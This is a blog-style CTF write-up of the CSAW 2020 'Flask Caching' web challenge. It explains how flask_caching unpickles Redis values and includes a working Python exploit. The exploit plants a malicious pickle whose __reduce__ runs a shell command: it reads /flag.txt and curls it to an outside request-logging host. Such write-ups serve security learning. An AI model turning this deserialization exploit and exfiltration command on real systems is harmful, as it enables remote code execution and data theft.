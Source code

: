 ```yaml
---
layout: post
author: Veryyes
title: "CSAW 2020 CTF: Flask Caching"
date: 2020-09-12 12:35:32 -0500
categories: CTF-writeup
ctf-category: Web
---
```


# flask_caching

## Overview
I'm usually terrible at web challenges, but this one was pretty fun. So the challenge is a flask webserver with flask_caching (wow didn't see that one) with a redis server backing the caching system
Here's the [source code](/assets/csaw-2020/flask_caching/clean_app.py)

Essentially you can give that website a string as the key and a file as its corresponding value, and it will cache the values. The same goes for the cached functions. 

## Investigating the Behavior
After setting up the dependencies and the redis server I started wiresharking and watching the traffic going on

![POST Request](/assets/csaw-2020/flask_caching/regular_request.png)

Heres a normal request to the webserver with the title "dongs" and a file named "test.txt" with it's contents being "test things"

After recieving the last request, the webserver tells the redis server to cache the values it received.

![Webserver to Redis](/assets/csaw-2020/flask_caching/regular_cache.png)

Interesting. Lets see what it looks like when the webserver caches a function.

![Function Cache](/assets/csaw-2020/flask_caching/func_cache.png)

I asked the webserver for `localhost:5000/test5`; packets to redis looks pretty similar. That `$-1` response means that value doesnt exist in the cache, so the webserver responds with a `SETEX` command to `flask_cache_view//test5`. In fact that last section of the respond is just the data that tells redis to cache some data. but the data its caching in this response is binary data and looks kinda like a pickled python object

## Very research, much good
So, the `flask_caching` module is serializing either the function or the function's results some how, so lets just read the code and find out what it's doing.

### flask_caching/backends/rediscache.py
```
    def load_object(self, value):
        """The reversal of :meth:`dump_object`.  This might be called with
        None.
        """
        if value is None:
            return None
        if value.startswith(b"!"):
            try:
                return pickle.loads(value[1:])
            except pickle.PickleError:
                return None
        try:
            return int(value)
        except ValueError:
            # before 0.8 we did not have serialization.  Still support that.
            return value
```

So looks like it just pickles the data and appends a '!' character at the beginning. This matches the data we saw in wireshark. If we drop the '!' and unpickle the binary data from the previous packet capture, we just get the string "test" which is the return value of the handler function.

Cool, so the webserver is unpickling data we send it. Thats definitely a thing thats vulnerable, so after a quick google search and some testing around on the CTF server I came up with a solution:

```
#!/usr/bin/env python3
import time
import requests
import pickle
import os

payload="test_file"

class jinja2:
    def __reduce__(self):
        return (os.system,('cat /flag.txt > /tmp/out; curl https://penis.free.beeceptor.com/ --data @/tmp/out',))

with open(payload, 'wb') as f:
    f.write(b'!')
    f.write(pickle.dumps(jinja2()))


# host = 'localhost'
host='web.chal.csaw.io'

url = "http://{}:5000/".format(host)

# Send a malicious payload to cache a object that will run a command to exfil the flag to a chosen endpoint
r = requests.post(url, 
    files={'content': (payload, open(payload,'rb'), 'application/octet-stream')}, 
    data={"title": "flask_cache_view//test5"}, 
)

print(r.text)


url += 'test5'

# Send a webrequest to the endpoint to call the unpickling code executing the payload
r = requests.get(url)
print(r.text)
```

So the way this works is that when you run pickle.load() on pickled data it runs the `__reduce__` function of that object by default. In this case I overrode `__reduce__` to run bash commands.


The class is named `jinja2` because the object being unpickled must existing in the namespace of the programming unpickling it

`https://penis.free.beeceptor.com` is a free service that lets you send web requests too and displays them for easy display. This is what I used to exfiltrate the flag

The request body will have the flag:

```
flag{f1@sK_10rD}
```